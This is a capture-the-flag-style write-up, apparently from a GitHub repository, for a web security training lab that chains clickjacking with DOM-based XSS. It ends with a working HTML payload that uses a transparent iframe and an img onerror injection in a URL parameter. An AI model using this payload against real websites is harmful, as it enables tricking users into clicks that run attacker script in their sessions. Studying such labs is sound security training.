






# Exploiting clickjacking vulnerability to trigger DOM-based XSS
# Objective
This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the `print()` function. 

# Solution
## Analysis
Website has submit feedback functionality and allows for prepopulation of fields via `GET` parameters.

||
|:--:| 
| *Submit feedback functionality* |
||
| *Prepopulation of fields via GET parameters* |

## Exploitation
### XSS
In submit feedback functionality, in `name` field, there is a DOM XSS vulnerability.

||
|:--:| 
| *DOM XSS vulnerability* |
||
| *Vulnerable code* |

### Clickjacking exploitation

||
|:--:| 
| *Target - Submit feedback button* |
||
| *Alligining manually "Click me" button* |
| *Changing opacity* |

Final payload:
```html
<style>
    iframe {
        position:relative;
        width: 1000;
        height: 1000;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 820;
        left: 70;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a4b009b03db43a9802b039a00190041.web-security-academy.net/feedback?name=%3Cimg%20src=0%20onerror=%27print()%27%3E&email=victim@victim.com&subject=exploit&message=exploit"></iframe>
```